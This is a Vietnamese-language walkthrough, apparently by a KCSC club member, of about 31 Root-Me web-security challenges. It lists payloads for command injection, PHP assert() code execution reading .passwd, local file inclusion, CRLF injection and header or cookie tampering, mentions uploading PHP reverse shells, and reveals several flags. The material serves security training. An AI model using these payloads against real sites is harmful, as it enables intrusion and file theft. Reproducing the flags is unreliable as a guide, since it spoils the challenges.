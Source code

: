 # Writeup Rootme from KCSC member

### 1. HTML - Source code
http://challenge01.root-me.org/web-serveur/ch1/
View source F12 hoặc Ctrl U để xem flag

### 2. HTTP - Open redirect
http://challenge01.root-me.org/web-serveur/ch52/
Chuyển hướng đến 1 trang web khác và hash md5
Paypak: `/?url=https://github.com&h=3097fca9b1ec8942c4305e550ef1b50a`

### 3. HTTP - User-agent
http://challenge01.root-me.org/web-serveur/ch2/
Thay đổi User-agent thành admin

### 4. Weak password
http://challenge01.root-me.org/web-serveur/ch3/
guess tài khoản và password: admin/admin

### 5. PHP - Command injection
http://challenge01.root-me.org/web-serveur/ch54/
Sử dụng `;` để tách lệnh gửi.
Paypak: `127.0.0.1;cat index.php`

### 6. Backup file
http://challenge01.root-me.org/web-serveur/ch11/
Các file backup thường có dấu hiệu là ~ hoặc .bak
Paylak: `/index.php~`

### 7. HTTP - Directory indexing
http://challenge01.root-me.org/web-serveur/ch4/
View source tìm thấy `admin/pass.html` 
quay về đường dẫn `admin` thấy xuất hiện thư mục khác
Paylak: `/admin/backup/admin.txt`

### 8. HTTP - Headers
http://challenge01.root-me.org/web-serveur/ch5/
Check Headers thấy `Header-RootMe-Admin: none`
Paylak: `Header-RootMe-Admin: admin`

### 9. 	HTTP - POST
http://challenge01.root-me.org/web-serveur/ch56/
Gửi giá trị cao hơn 999999
Paylak:
```bash
curl http://challenge01.root-me.org/web-serveur/ch56/ -X POST -d="score=1000000&generate=Give a try!" -H "Content-Type: application/x-www-form-urlencoded"
```

### 10. HTTP - Improper redirect
http://challenge01.root-me.org/web-serveur/ch32/
Sau khi chuyển hướng trang bằng Location đã ko sử dụng exit() nên phần code sau vẫn được thực hiện.

### 11. HTTP - Verb tampering
http://challenge01.root-me.org/web-serveur/ch8/
Bypass bằng cách dùng methods khác.
Paylak:
```bash
curl -X PUT http://challenge01.root-me.org/web-serveur/ch8/
```

### 12. Install files
http://challenge01.root-me.org/web-serveur/ch6/
Tìm đến đường dẫn file install của `phpbb`
```Python
/phpbb/install/install.php
```

### 13. CRLF
http://challenge01.root-me.org/web-serveur/ch14/
Tạo giả thông báo xác thực thành công
```Python
?username=admin authenticated.%0D%0Aadmin&password=kcsc
```

### 14. File upload - Double extensions
http://challenge01.root-me.org/web-serveur/ch20/
Upload 1 con reverse shell php với tên a.php.jpg

### 15. File upload - MIME type
http://challenge01.root-me.org/web-serveur/ch21/
Upload 1 con reverse shell php với tên a.php, dùng burpsuite edit mime type thành image/jpeg

### 16. HTTP - Cookies
http://challenge01.root-me.org/web-serveur/ch7/
Submit email thấy ta cần quyền admin.
Sửa cookie thành `ch7=admin`

### 17. PHP - assert()
http://challenge01.root-me.org/web-serveur/ch15/ch15.php
Lỗi tương tự như lỗi inject LFI hay RFI, ta có thể viết code theo ý muốn của mình.
Theo như đề thì ta cần đọc file .passwd
```Python
?page='%2C'..')%20%3D%3D%3D%20false%20and%20system('cat%20.passwd')%3B%2F%2F
```

### 18. PHP - Filters
http://challenge01.root-me.org/web-serveur/ch12/
Sử dụng giao thức của php để đọc file trên hệ thống.
```Python
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php
```
Decode đoạn mã base64 tìm đc password.

### 19. PHP register globals
http://challenge01.root-me.org/web-serveur/ch17/
Dùng dirb tìm được file backup là `index.php.bak`
Set giá trị của `$_SESSION['logged']` về là 1
```Python
http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1
```

### 20. Local File Inclusion
http://challenge01.root-me.org/web-serveur/ch16/
LFI :3
```Python
?files=coding&f=../../admin/index.php
```

### 21. Local File Inclusion - Double encoding
http://challenge01.root-me.org/web-serveur/ch45/
Double encoding URL 
```Python
?page=php%3A%2F%2Ffilter%2Fconvert%2Ebase64%2Dencode%2Fresource%3Dconf
```

### 22. PHP - Loose Comparison
http://challenge01.root-me.org/web-serveur/ch55/
```bash
curl http://challenge01.root-me.org/web-serveur/ch55/ -X POST -d="s=0e1&h=240610708"
```

### 23. HTML - disabled buttons
http://challenge01.root-me.org/web-client/ch25/
Bỏ set attr `disabled` cho 2 thẻ input

### 24. Javascript - Authentication
http://challenge01.root-me.org/web-client/ch9/
View-source thấy được file `login.js`

### 25. Javascript - Source
http://challenge01.root-me.org/web-client/ch1/
View-source

### 26. Javascript - Authentication 2
http://challenge01.root-me.org/web-client/ch11/
View-source file `login.js` và tìm thấy username pass được split bằng dấu `:`

### 27. Javascript - Obfuscation 1
http://challenge01.root-me.org/web-client/ch4/ch4.html
unescape() giá trị của biến `pass`

### 28. Javascript - Obfuscation 2
http://challenge01.root-me.org/web-client/ch12/ch12.html
unescape() giá trị của pass 2 lần sau đó run trên console:
```javascript
String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54)
```

### 29. Javascript - Native code
http://challenge01.root-me.org/web-client/ch16/ch16.html
Debug Javascript
```javascript
a=prompt('Entrez le mot de passe');if(a=='toto123lol'){alert('bravo');}else{alert('fail...');}
```

### 30. Javascript - Webpack
http://challenge01.root-me.org/web-client/ch27/
Có sourcemap nên t debug được flag:
`BecauseSourceMapsAreGreatForDebuggingButNotForProduction`

### 31. Javascript - Obfuscation 3
http://challenge01.root-me.org/web-client/ch13/ch13.html
Convert ascii dãy số ta được flag.
```javascript
55,56,54,79,115,69,114,116,107,49,50
```

### 32. 

